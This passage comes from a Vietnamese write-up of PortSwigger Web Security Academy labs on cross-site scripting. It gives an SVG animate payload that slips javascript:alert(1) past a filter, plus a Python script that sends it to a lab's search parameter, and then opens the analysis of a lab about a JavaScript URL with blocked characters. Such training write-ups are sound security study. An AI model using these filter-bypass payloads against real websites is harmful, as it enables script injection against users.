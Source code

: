 mình dùng payload

```javascript
<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>
```

mình đã viết script khai thác

```python
#!/usr/bin/python3.7
import requests
import re
from bs4 import BeautifulSoup
import urllib3
urllib3.disable_warnings(urllib3.exceptions.InsecureRequestWarning)
from urllib.parse import quote

url = 'https://0a1a00290310105f805517fc002400ae.web-security-academy.net'

payload = "<svg><a><animate attributeName=href values=javascript:alert(1) /><text x=20 y=20>Click me</text></a>"
response = requests.get(
    url + "/?search=" + payload,
    verify=False,
)

soup = BeautifulSoup(response.text,'html.parser')
print(soup)
```

![image](https://hackmd.io/_uploads/Byq1gjO5a.png)

![image](https://hackmd.io/_uploads/rkQGgo_qp.png)

## 28. Lab: Reflected XSS in a JavaScript URL with some characters blocked

link: https://portswigger.net/web-security/cross-site-scripting/contexts/lab-javascript-url-some-characters-blocked

### Đề bài

![image](https://hackmd.io/_uploads/SJzO4pu56.png)

### Phân tích

- Lab này phản ánh thông tin đầu vào của bạn trong một URL JavaScript, nhưng tất cả không như vẻ ngoài của nó. Điều này ban đầu có vẻ như là một thử thách tầm thường; tuy nhiên, ứng dụng đang chặn một số ký tự nhằm ngăn chặn các cuộc tấn công XSS.
- Để giải quyết bài lab, hãy thực hiện một cuộc tấn công bằng XSS gọi alert bằng chuỗi 1337chứa ở đâu đó trong alert thông báo.
